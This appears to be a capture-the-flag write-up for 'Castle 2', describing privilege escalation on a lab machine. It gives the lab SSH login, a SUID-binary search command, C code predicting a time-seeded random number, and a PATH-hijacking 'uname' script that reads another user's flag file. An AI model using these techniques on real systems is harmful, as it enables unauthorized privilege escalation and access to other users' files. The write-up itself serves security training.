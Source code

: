# Castle 2
After solving Castle 1, recover the flag2.txt file from the same system Note: Flag is not in the usual format

## Writeup
1. ssh harry@castle.runcode.ninja with password `wingardiumleviosa123`

2. flag2.txt should be in `/home/hermonine`.

3. Search for user root's SUID binary with `find / -user root -perm -u=s -exec ls -al {} \; 2> /dev/null`, we get `/usr/sbin/swagger` with the closest last modification date.

4. Reverse it, it is a x64 elf running `srand(time(NULL))`, and we need to find the first random number. If we do, we can get `uname -p` executed as `hermonine`.

5. Wrote a program get_rand.c
```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
void main() {
    int a;
    srand(time(NULL));
    a = rand();
    printf("%d", a);
}
```
compile it with `gcc -o get_rand get_rand.c`.

6. Make a shell script named `uname`
```
#!/bin/sh

cat /home/hermonine/flag2.txt
```
Add our directory to the environment variable `export PATH=/tmp/c:$PATH`

7. Create another script `run.sh`
```
#!/bin/sh

./get_rand
/usr/sbin/swagger
```

8. Execute `run.sh`, we get the target number first, and the `uname` shell script will be executed after we copy and paste the number, we get the flag.